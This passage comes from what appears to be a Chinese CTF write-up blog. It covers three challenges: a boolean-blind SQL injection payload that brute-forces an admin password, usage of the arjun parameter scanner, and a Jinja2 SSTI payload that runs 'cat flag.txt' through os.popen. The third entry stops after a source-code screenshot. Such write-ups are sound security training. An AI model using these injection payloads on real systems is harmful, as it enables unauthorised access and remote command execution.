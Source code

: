 ![upload successful](./images/pasted-474.png)
发现当密码和admin密码相同时就能得到flag

![upload successful](./images/pasted-475.png)
`username=\&passwd=||1;%00`时，得到一个welcome.php

![upload successful](./images/pasted-476.png)
`username=\&passwd=||0;%00`时，无welcome.php。可以利用bool盲注进行注入，爆破passwd

payload:`username=\&passwd=||passwd/**/regexp/**/"^y";%00`

![upload successful](./images/pasted-477.png)
继续使用脚本爆破密码

![upload successful](./images/pasted-478.png)
使用任意账号和这个密码，成功登录

![upload successful](./images/pasted-479.png)
拿下flag

# [RootersCTF2019]I_<3_Flask1

这里记录arjun的使用方法`arjun -u url -c 150 -d 0.5`
<li>pip3 install arjun</li>

<li>python3 setup.py install</li>

<li>输入arjun -h显示如下即可</li>

![upload successful](./images/pasted-480.png)
扫描url得到参数是name

![upload successful](./images/pasted-481.png)
得到参数是name

![upload successful](./images/pasted-482.png)
测试发现存在SSTI模板注入

payload:`/?name={{lipsum.__globals__['os'].popen('cat flag.txt').read()}}`

![upload successful](./images/pasted-483.png)
拿到flag

# [HarekazeCTF2019]encode_and_encode1

![upload successful](./images/pasted-486.png)
点到源码里面看看

![upload successful](./images/pasted-484.png)
